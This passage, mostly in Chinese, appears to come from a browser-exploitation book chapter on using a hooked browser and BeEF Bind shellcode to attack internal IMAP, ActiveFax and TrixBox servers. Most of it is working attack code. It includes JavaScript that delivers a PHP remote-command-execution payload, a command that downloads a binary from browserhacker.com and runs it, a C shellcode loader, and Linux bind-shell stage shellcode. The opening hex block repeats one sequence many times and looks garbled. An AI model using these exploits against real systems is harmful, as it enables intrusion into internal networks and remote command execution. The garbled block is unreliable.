"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10+
"


Level1 **1.** 一个存在漏洞的内部 IMAP 服务器通过被钩钉的浏览器被发现。 **2.** 被钩钉的浏览器利用该漏洞服务发送 XMLHttpRequest。 BeEF Bind Stager 被用作漏洞利用的负载。 **3.** 这在受影响的 IMAP 服务器上打开了 TCP 监听器，监听端口 4444，该服务器现在等待 BeEF Bind 负载的第二部分——Stage。 **4.** 被钩钉的浏览器再次向服务器的 4444 端口发送请求，使用 XMLHttpRequest.sendAsBinary，这次发送 BeEF Bind Stage。 **5.** BeEF Bind 现在已激活，允许通过标准 POST 请求向受影响的 IMAP 服务器提交任意操作系统命令。

/Level1

下一个示例再次探讨 ActiveFax，这次使用 BeEF Bind Shellcode。

### ActiveFAX Inter-protocol Exploitation Example

使用 BeEF Bind Shellcode 针对 ActiveFax，你需要对前文讨论的 ActiveFax 利用示例中的代码进行修改。你还需要向 Stager 端口发送一个额外请求，这会导致以下修改后的代码。请记住，由于不良字符限制，必须使用 alpha_mixed 编码器。

```
// BeEF bind Stage
var stage = "\xfc\xe8\x89[...snip...]";

setTimeout(function(){
  xhr.abort();
  setTimeout(function(){
    // 等待几秒以让 Stager 进入内存，然后
    // 在默认 BeEF Bind 端口 4444 上发送 Stage。
    var stage_request = "cmd=" + stage;
    sendRequest(4444, stage_request);
  }, 4000);
}, 2000);
```

发送 Stager 和 Stage 之后，你就可以与在受害系统上运行的 BeEF Bind 监听器进行通信。Figure 10-29 展示了通过 BeEF Bind 执行 netstat 命令的过程。

 start figure 

**Figure 10-29:** 使用 BeEF Bind 与受 compromised 系统交互


 end figure 

为简化过程，我们想使用 BeEF 的 “beef_bind_shell” 命令模块来与 Shellcode 通信。Figure 10-30 的图表提供了此攻击的高层次概览以及它如何基于前文的 IPE 攻击。你可以清楚地看到，双向通信通道完全通过浏览器传递，并且位于被钩钉浏览器的内部网络内部。

 start figure 

**Figure 10-30:** ActiveFax 利用 BeEF Bind Shellcode 的高层次概览


 end figure 

使用 BeEF Bind 的主要优势在于消除了对出站通信通道的猜测。你不需要预测出站开放端口，也不必使用 HTTP 或 DNS 隧道突破网络限制。你利用浏览器已经存在的通信通道，这最终提高了利用成功率。

此攻击突显了浏览器作为跳板的概念。如果你钩钉了浏览器，你就拥有了内部网络的视野。所有从被钩钉浏览器可达的内部网络系统都在那里闲置，等待被利用。那么，为什么不使用浏览器作为跳点来发送你的攻击呢？

### TrixBox Inter-protocol Exploitation Example

正如第 9 章所揭示的，TrixBox 的一个版本存在远程命令执行漏洞。前一章通过执行反向网络连接演示了该漏洞。通过 BeEF Bind 扩展此攻击，展示了如何通过被钩钉的浏览器将反向连接通道化，从而绕过潜在的防御或预防控制。

TrixBox 默认在 CentOS Linux 上运行，且其 iptables 配置默认不阻止任何入站或出站网络流量，这使其成为 BeEF Bind 的理想目标。

下面的代码被注入到受害浏览器中，利用之前讨论的相同 TrixBox 漏洞。此次，它会在目标上运行 BeEF Bind Stager 二进制文件：

```
var uri = "http://172.16.37.155/user/index.php";

/* 要与 PHP exec 执行的命令
 * 1. 获取 BeEF Bind 32 位 ELF
 * 2. 将二进制标记为可执行
 * 3. 在后台运行它
*/
var cmd = btoa("/usr/bin/wget -O /tmp/BeEF_bind " + 
"http://browserhacker.com/BeEF_bind " + 
"&& /bin/chmod +x /tmp/BeEF_bind && " + 
"/tmp/BeEF_bind > /dev/null 2>&1 & echo $!");

// POST 主体。前面的命令从 Base64 解码后执行
var body = "langChoice=<?php exec(base64_decode('" + cmd + "'));?>%00";
var xhr = new XMLHttpRequest();
xhr.open("POST", uri, true);
xhr.setRequestHeader("Content-Type", 
 "application/x-www-form-urlencoded");
xhr.setRequestHeader('Accept','*/*');
xhr.setRequestHeader("Accept-Language", "en");
xhr.send(body);
console.log("Sending first request with RCE vector...");

function getCookie(name){
  name += '=';
  var parts = document.cookie.split(/;\s*/);
  for (var i = 0; i < parts.length; i++){
    var part = parts[i];
    if (part.indexOf(name) == 0)
      return part.substring(name.length)
  }
  return null;
}

function trigger(){
 // 当前会话 cookie
 var phpsessid = getCookie("PHPSESSID");
 console.log("Using PHPSESSID: " + phpsessid);
 
 // 触发代码执行需要评估 PHP 的 $_SESSION 的序列化内容
 var body = "langChoice=../../../../../../../../../../tmp/sess_"
 + phpsessid + "%00";
 var xhr_trigger = new XMLHttpRequest();
 xhr.open("POST", uri, true);
 xhr.setRequestHeader("Content-Type", 
  "application/x-www-form-urlencoded");
 xhr.setRequestHeader('Accept','*/*');
 xhr.setRequestHeader("Accept-Language", "en");
 xhr.send(body);
 console.log("Sending second to trigger RCE...\n" + 
 "BeEF Bind ELF should now be listening on port 4444.");
}
setTimeout(function(){trigger();}, 3000);
```

该漏洞利用下载 BeEF Bind 二进制文件，修改其权限使其可执行，并以后台方式运行该二进制文件。

在此实例中，BeEF Bind 是一个 32 位 Linux ELF 二进制文件，包含前文讨论的 BeEF Bind Stager 功能。你可以使用以下 C 代码编译 Shellcode 为二进制文件，但它也可从 [`browserhacker.com`](https://browserhacker.com) 下载：

```
#include <stdio.h>
#include <sys/mman.h>
#include <string.h>
#include <stdlib.h>

# Compile with GCC on Linux as the following
# gcc -fno-stack-protector -z execstack -o BeEF_bind BeEF_bind.c

int (*sc)();

char shellcode[] = "\xfc\x31\xc0\x31\xd2\x6a\x01\x5b\x50\x40"+
"\x50\x40\x50\x89\xe1\x6a\x66\x58\xcd\x80\x89\xc6\x6a\x0e\x5b"+
"\x6a\x04\x54\x6a\x02\x6a\x01\x56\x89\xe1\x6a\x66\x58\xcd\x80"+
"\x6a\x02\x5b\x52\x68\x02\x00\x11\x5c\x89\xe1\x6a\x10\x51\x56"+
"\x89\xe1\x6a\x66\x58\xcd\x80\x43\x43\x53\x56\x89\xe1\x6a\x66"+
"\x58\xcd\x80\x43\x52\x52\x56\x89\xe1\x6a\x66\x58\xcd\x80\x96"+ 
"\x93\xb8\x06\x00\x00\x00\xcd\x80\x6a\x00\x68\xff\xff\xff\xff"+
"\x6a\x22\x6a\x07\x68\x00\x10\x00\x00\x6a\x00\x89\xe3\x6a\x5a"+
"\x58\xcd\x80\x89\xc7\x66\xba\x00\x10\x89\xf9\x89\xf3\x6a\x03"+
"\x58\xcd\x80\x6a\x06\x58\xcd\x80\x81\x3f\x63\x6d\x64\x3d\x74"+
"\x03\x47\xeb\xf5\x6a\x04\x58\x01\xc7\xff\xe7";

int main(int argc, char **argv) {
   char *ptr = mmap(0, sizeof(shellcode), 
    PROT_EXEC | PROT_WRITE | PROT_READ, MAP_ANON | MAP_PRIVATE,
    -1, 0);
   if (ptr == MAP_FAILED) {perror("mmap");exit(-1);}
   memcpy(ptr, shellcode, sizeof(shellcode));
   sc = (int(*)())ptr;
   (void)((void(*)())ptr)();
   printf("\n");
   return 0;
}
```

在此阶段，你应该已经拥有正在监听 TCP 端口 4444 的 BeEF Bind Stager，如 Figure 10-31 所示。

 start figure 


-   Figure 10-31: BeEF Bind ELF Stager 运行在 4444 端口上


end figure 

现在，你已准备好发送 Stage 进行执行。你可以使用以下 JavaScript，即使跨源，因为 BeEF Bind 返回 Access-Control-Allow-Origin 头，其值为通配符（是的，在这种情况下是安全的）：

```javascript
// BeEF Bind Linux_32bit Stage
var BeEF_Bind_Stage = 
"\xfc\x31\xd2\x6a\x02\x59\x52\x52\x89\xe3\x6a\x2a\x58"+
"\xcd\x80\x49\x67\xe3\x02\xeb\xf1\x31\xdb\x6a\x02\x58"+
"\xcd\x80\x3d\x00\x00\x00\x00\x0f\x84\xe4\x01\x00\x00"+
"\x8b\x5c\x24\x08\x6a\x06\x58\xcd\x80\x8b\x5c\x24\x04"+
"\x6a\x06\x58\xcd\x80\x8b\x1c\x24\x6a\x04\x59\x68\x00"+
"\x08\x00\x00\x5a\x6a\x37\x58\xcd\x80\x6a\x00\x68\xff"+
"\xff\xff\xff\x6a\x22\x6a\x07\x68\x00\x10\x00\x00\x68"+
"\x00\x00\x00\x00\x89\xe3\x6a\x5a\x58\xcd\x80\x89\xc7"+
"\x81\xc4\x18\x00\x00\x00\x31\xd2\x31\xc0\x6a\x01\x5b"+
"\x50\x40\x50\x40\x50\x89\xe1\x6a\x66\x58\xcd\x80\x89"+
"\xc6\x81\xc4\x0c\x00\x00\x00\x6a\x0e\x5b\x6a\x04\x54"+
"\x6a\x02\x6a\x01\x56\x89\xe1\x6a\x66\x58\xcd\x80\x81"+
"\xc4\x14\x00\x00\x00\x6a\x02\x5b\x52\x68\x02\x00\x11"+
"\x5c\x89\xe1\x6a\x10\x51\x56\x89\xe1\x6a\x66\x58\xcd"+
"\x80\x81\xc4\x14\x00\x00\x00\x43\x43\x53\x56\x89\xe1"+
"\x6a\x66\x58\xcd\x80\x81\xc4\x08\x00\x00\x00\x43\x52"+
"\x52\x56\x89\xe1\x6a\x66\x58\xcd\x80\x81\xc4\x0c\x00"+
"\x00\x00\x96\x93\xb8\x06\x00\x00\x00\xcd\x80\xb9\x00"+
"\x10\x00\x00\x49\x89\xfb\x01\xcb\xc6\x03\x00\xe3\x05"+
"\xe9\xf1\xff\xff\xff\x66\xba\x00\x04\x89\xf9\x89\xf3"+
"\x6a\x03\x58\xcd\x80\x57\x56\x89\xfb\xb9\x00\x04\x00"+
"\x00\x81\x3b\x63\x6d\x64\x3d\x74\x09\x43\x49\xe3\x3a"+
"\xe9\xef\xff\xff\xff\x89\xd9\x81\xc1\x03\x00\x00\x00"+
"\x8b\x5c\x24\x14\x41\x6a\x01\x5a\x6a\x04\x58\xcd\x80"+
"\x80\x39\x0a\x75\xf2\x68\x00\x00\x00\x00\x68\x01\x00"+
"\x00\x00\x89\xe3\x31\xc9\xb8\xa2\x00\x00\x00\xcd\x80"+
"\x81\xc4\x08\x00\x00\x00\xe8\x62\x00\x00\x00\x48\x54"+
"\x54\x50\x2f\x31\x2e\x31\x20\x32\x30\x30\x20\x4f\x4b"+
"\x0d\x0a\x43\x6f\x6e\x74\x65\x6e\x74\x2d\x54\x79\x70"+
"\x65\x3a\x20\x74\x65\x78\x74\x2f\x68\x74\x6d\x6c\x0d"+
"\x0a\x41\x63\x63\x65\x73\x73\x2d\x43\x6f\x6e\x74\x72"+
"\x6f\x6c\x2d\x41\x6c\x6c\x6f\x77\x2d\x4f\x72\x69\x67"+
"\x69\x6e\x3a\x20\x2a\x0d\x0a\x43\x6f\x6e\x74\x65\x6e"+
"\x74\x2d\x4c\x65\x6e\x67\x74\x68\x3a\x20\x33\x30\x34"+
"\x38\x0d\x0a\x0d\x0a\x5e\x81\xc7\x00\x04\x00\x00\xb9"+
"\x62\x00\x00\x00\xf3\xa4\x5f\x5e\x8b\x1c\x24\x89\xf1"+
"\x81\xc1\x00\x04\x00\x00\x81\xc1\x62\x00\x00\x00\x68"+
"\x86\x0b\x00\x00\x5a\x6a\x03\x58\xcd\x80\x89\xfb\x89"+
"\xf1\x81\xc1\x00\x04\x00\x00\xba\xe8\x0b\x00\x00\x6a"+
"\x04\x58\xcd\x80\x6a\x06\x58\xcd\x80\x89\xf7\xe9\x63"+
"\xe8\xfe\xff\xff\x8b\x5c\x24\x0c\x6a\x06\x58\xcd\x80"+
"\x31\xdb\x6a\x06\x58\xcd\x80\x8b\x5c\x24\x08\x6a\x29"+
"\x58\xcd\x80\x8b\x1c\x24\x6a\x06\x58\xcd\x80\x31\xdb"+
"\x43\x6a\x06\x58\xcd\x80\x8b\x5c\x24\x04\x6a\x29"+
"\x58\xcd\x80\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\xa4"+
"\xcd\x80\x31\xc0\x50\x50\x68\x2f\x2f\x73\x68\x68"+
"\x2f\x62\x69\x6e\x89\xe3\x6a\x0b\x58\xcd\x80";
```

var uri = "http://172.16.37.155:4444/"; 
xhr = new XMLHttpRequest(); 
xhr.open("POST", uri, true);
